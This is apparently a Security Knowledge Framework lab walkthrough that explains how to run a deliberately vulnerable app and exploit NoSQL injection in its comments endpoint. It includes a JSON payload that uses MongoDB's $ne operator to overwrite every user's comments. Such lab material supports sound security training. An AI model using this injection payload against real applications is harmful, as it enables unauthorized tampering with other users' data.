





# KBID XXX - NoSQL

## Running the app

```
$ sudo docker pull blabla1337/nosql
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/nosql
```


Now that the app is running let's go hacking!


## Running the app Python3

First, make sure python3 and pip are installed on your host machine. After installation, we go to the folder of the lab we want to practice "i.e /skf-labs/python/nosql/ " and run the following commands:

```
$ pip3 install -r requirements.txt
```

```
$ python3 <labname>
```


Now that the app is running let's go hacking!



## Reconnaissance

First, we need to understand how the data is stored. NoSQL databases are often document-oriented, meaning that each record is stored as a document. This document can be in JSON, XML, or any other format.

Is important to understand the structure of the document in order to exploit a NoSQL injection. For example, a document might look like this:

```json
{
  "user": {
    "name": "Bob",
    "age": 25,
    "address": "123 Main St."
  }
}
```

In this example, the document is storing information about a user. We can see that there is a "name" field, an "age" field, and an "address" field.

The most popular NoSQL database is MongoDB, so the database being used is likely MongoDB. MongoDB stores data in JSON documents, so we can assume that the data is stored in a similar format to the example above.

Upon registering an account and logging in, the app has a comment section. Users can add and update comments.



When we update a comment, we can observe that the application sends a PUT request to the `/comments` endpoint. The request body includes the text we entered and an ID.

```json
{
  "id": "a6f317162e2141d497bf97b7a3a06d4d",
  "text": "This is an updated comment"
}
```

We can use tools like Burp or ZAP to intercept the comment and add a nested property. This reveals that the app is storing the comment as a JSON document.

```json
{
  "id": "a6f317162e2141d497bf97b7a3a06d4d",
  "text": {
    "nested": "This is a nested property"
  }
}
```



If you open the developer tools in the browser and go to the Network tab, you can see that the app is making a GET request to the `/comments` endpoint. The response contains a list of comments with the nested property.

```json
[
  {
    "id": "a6f317162e2141d497bf97b7a3a06d4d",
    "text": {
      "nested": "This is a nested property"
    }
  }
]
```



This indicates that the field has not been sanitized correctly, allowing us to inject a NoSQL query.

## Exploitation

We can update a comment and then intercept the request. We can change the id to a MongoDB query using the $ne operator. This will update all documents where the id is not equal to the id we entered.

```json
{
  "id": {
    "$ne": -1
  },
  "text": "INJECTED"
}
```



After sending the request and refreshing the page, we can observe that the app updates all the comments with the text we entered.



## Additional sources

[owasp.org | Testing for NoSQL Injection](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05.6-Testing_for_NoSQL_Injection)
